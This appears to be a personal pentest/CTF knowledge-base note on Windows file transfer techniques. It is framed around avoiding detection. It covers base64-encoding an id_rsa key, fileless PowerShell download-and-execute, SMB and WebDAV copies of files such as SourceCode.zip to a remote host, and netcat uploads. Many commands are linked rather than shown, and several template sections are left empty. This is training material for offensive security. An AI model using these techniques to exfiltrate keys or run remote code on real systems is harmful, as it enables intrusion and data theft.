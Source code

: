 # Windows File Transfer

## Overview

For transferring files to/from Windows machines.

## Key Concepts

To avoid detection, it's recommended to try to use Windows-native tools to transfer files as much as possible.

## Downloading

### Powershell

#### Method 1: Base64 Encoding

> [!warning] While this method is convenient, it's not always possible to use. Windows Command Line utility (cmd.exe) has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings. 

**Step 1:** Check the MD5 hash of the contents.
```bash
md5sum id_rsa
```

**Step 2:** Encode contents to base64 and copy it to clipboard.
```bash
cat id_rsa | base64 -w 0; echo
```

**Step 3:** On the Windows machine, decode the contents in your clipboard to a file.
![[Powershell#^decode-base64-to-file]]

**Step 4:** Confirm the MD5 hash matches
![[Powershell#^get-file-md5-hash]]

#### Method 2:  DownloadFile

Download a file to a specified location.
![[Powershell#^downloadfile-method]]

#### Method 3:  DownloadString - Fileless

Download and execute a remote file in memory - filelessly!
![[Powershell#^downloadstring-method-fileless]]

#### Method 4: Invoke-WebRequest

> [!warning]  `Invoke-WebRequest` is noticeably slower at downloading files than `(New-Object Net.WebClient).DownloadFile`

Download a file to a specified location.
![[Powershell#^outfile-invoke-webrequest]]

---
### SMB

#### Method 1: impacket-smbserver

**Step 1:** Create an SMB server on the Linux machine
![[impacket-smbserver#^create-authenticated-smb-server]]

**Step 2:** Mount the SMB server
```powershell
net use n: \\192.168.220.133\share /user:test test
```

**Step 3:** Copy the file from the share to the Windows machine
```powershell
copy n:\<file>
```

---
### FTP

#### Method 1: pyftpdlib

**Step 1:** Create an FTP server with Python on the Linux machine
![[Python#^create-ftp-server]]

**Step 2:** Download the files to the Windows machine
![[Powershell#^downloadfile-method]]


## Uploading

### Powershell

#### Method 1: Base64 Encoding + Copying

**Step 1:** Check the MD5 hash of the contents.
![[Powershell#^decode-base64-to-file]]

**Step 2:** Encode contents to base64 and copy it to clipboard.
![[Powershell#^encode-file-contents-to-base64]]

**Step 3:** On the Linux machine, decode the contents in your clipboard to a file.
```bash
echo "base64 content" | base64 -d > hosts
```

**Step 4:** Confirm the MD5 hash matches.
```bash
md5sum id_rsa
```

#### Method 2: Base64 Encoding + Uploading

**Step 1:** Encode the file content to Base64 and save it to a variable.
![[Powershell#^b64-file-content-variable]]

**Step 2:** Open a netcat listener on the Linux machine.
![[netcat#^open-listener]]

**Step 3:** Send the Base64 encoded file contents to the listener
![[Powershell#^send-b64-post]]

### FTP

#### Method 1: pyftpdlib

**Step 1:** Create an FTP server with write permissions on the Linux machine.
![[Python#^write-create-ftp-server]]

**Step 2:** Upload a file from the Windows machine.
![[Powershell#^uploadfile-method]]

### HTTP

#### Method 1: uploadserver

Set up a webserver with upload page
![[Python#^uploadserver]]

#### Method 2: wsgidav

**Step 1:** Create a WebDav share on the Linux machine
![[Python#^wsgidav-create-share]]

**Step 2:** Connect to the share on the Windows machine
```powershell
dir \\192.168.49.128\DavWWWRoot
```

**Step 3:** Upload files from the Windows machine
```powershell
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\www\
```





## Practical Examples

Real-world scenarios where I've used this

## Gotchas & Troubleshooting

- Common issues I've encountered
- Things that break this technique
- Environment-specific considerations

## Related Techniques

- [[Similar-Technique]] - How they differ
- [[Follow-up-Technique]] - What comes next

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #windows-file-transfer
SORT file.ctime DESC
LIMIT 5
```

## Learning Resources

- 

#windows-file-transfer #technique